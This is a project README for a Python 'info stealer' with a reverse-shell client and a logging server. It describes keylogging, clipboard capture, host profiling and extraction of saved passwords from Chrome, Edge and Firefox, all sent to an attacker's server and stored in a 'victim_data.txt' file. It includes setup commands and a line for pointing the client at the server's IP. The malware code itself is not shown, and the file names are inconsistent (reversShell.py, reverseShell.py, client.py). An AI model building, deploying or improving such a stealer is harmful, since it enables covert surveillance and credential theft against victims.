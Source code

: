 # simple info stealer Project

This project consists of a reverse shell implementation with keylogging capabilities. It involves two main components: a client script (`reversShell.py`) that runs on the target machine and sends data back to a server, and a server script (`server.py`) that receives and logs the data sent by the client.

## Features

1. **Socket Communication**:
   - Establishes a socket connection between the client and the server.
   - Sends data from the client to the server.

2. **Keylogging**:
   - Captures keystrokes on the client machine.
   - Sends captured keystrokes to the server.

3. **Clipboard Data**:
   - Captures clipboard data from the client machine.
   - Sends clipboard data to the server.

4. **Host Information**:
   - Gathers detailed information about the host machine, including:
     - Hostname
     - Private and public IP addresses
     - Processor information
     - Operating system details
     - Disk usage
     - Memory usage
   - Sends host information to the server.

5. **Password Stealing**:
   - Extracts saved passwords from browsers (Chrome, Edge, Firefox).
   - Sends extracted passwords to the server.

## Requirements

- Python 3.x
- Required Python libraries:
  - `pynput`
  - `requests`
  - `psutil`
  - `pywin32`

Install the required libraries using pip:

```sh
pip install pynput requests psutil pywin32

## Usage

### Setting up the Server

1. **Run the server script:**

    ```bash
    python server.py
    ```

    This script starts the server, listens for incoming connections, and logs keystrokes received from clients into a file (`./victim_data.txt`).

### Running the Keylogger Client

1. **Configure the Keylogger Client:**

    Modify `client.py` with the IP address and port of your server:

    ```python
    ke = Keylogger("server_ip", 9999)  # Replace with your server's IP and port
    ```

2. **Run the keylogger client script:**

    ```bash
    python reverseShell.py
    ```

    This script connects to the specified server and starts capturing keystrokes. It also gathers browser data and system information, sending all collected data to the server for logging.

## Troubleshooting

- **Connection Issues:** Ensure the server and client are running on the same network or have proper network access.
- **File Permissions:** Ensure the server has write permissions for the `./victim_data.txt` file in the project directory.

## Acknowledgments

- Thanks to the developers of `pynput`, `socket`, `sqlite3`, `requests`, `psutil`, `platform`, `pathlib`, `shutil`, `rarfile`, and `hashlib` libraries/modules for their contributions.

---

Ensure to adjust the IP address, port number, and paths in the scripts (`reverseShell.py` and `server.py`) according to your setup. This README provides a comprehensive overview of your keylogger project, including how it captures browser data, system information, and its integration with the malware detector functionality.
